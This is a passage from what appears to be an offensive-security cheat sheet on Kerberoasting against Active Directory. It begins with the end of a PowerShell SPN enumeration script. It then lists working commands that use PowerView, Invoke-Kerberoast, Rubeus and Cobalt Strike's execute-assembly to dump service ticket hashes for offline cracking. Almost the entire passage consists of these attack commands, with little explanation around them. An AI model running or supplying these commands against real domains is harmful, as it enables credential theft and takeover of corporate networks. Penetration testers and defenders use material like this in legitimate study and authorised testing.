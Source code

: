 ```PowerShell
    Write-Host "===="     
    foreach($SPN in $userEntry.servicePrincipalName)
    {
        $SPN       
    }
    Write-host ""
    Write-host ""
}
```
This script connects to the Domain Controller and searches for all objects that match our provided filter. Each result shows us its name (Distinguished Name) and the list of SPNs associated with this account.

### Automated Tools (Windows)

#### Enumerating SPN with PowerView
```PowerShell
Import-Module .\PowerView.ps1
```

```PowerShell
Get-DomainUser -SPN
```

#### Using PowerView to perform the Kerberoasting attack
```PowerShell
Get-DomainUser * -SPN | Get-DomainSPNTicket -format Hashcat | export-csv .\tgs.csv -notypeinformation
```

```PowerShell
cat .\tgs.csv
```

#### Using the Invoke-Kerberoast function to perform Kerberoasting
```PowerShell
Import-Module .\PowerView.ps1
```

```PowerShell
Invoke-Kerberoast
```

#### Using Rubeus to Kerberoast all available users and return their hashes for offline cracking
```cmd.exe
Rubeus.exe kerberoast /nowrap
```

#### ==COBALT STRIKE: Using Rubeus to Kerberoast all available users and return their hashes for offline cracking==
```cobalt
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe kerberoast /simple /nowrap
```
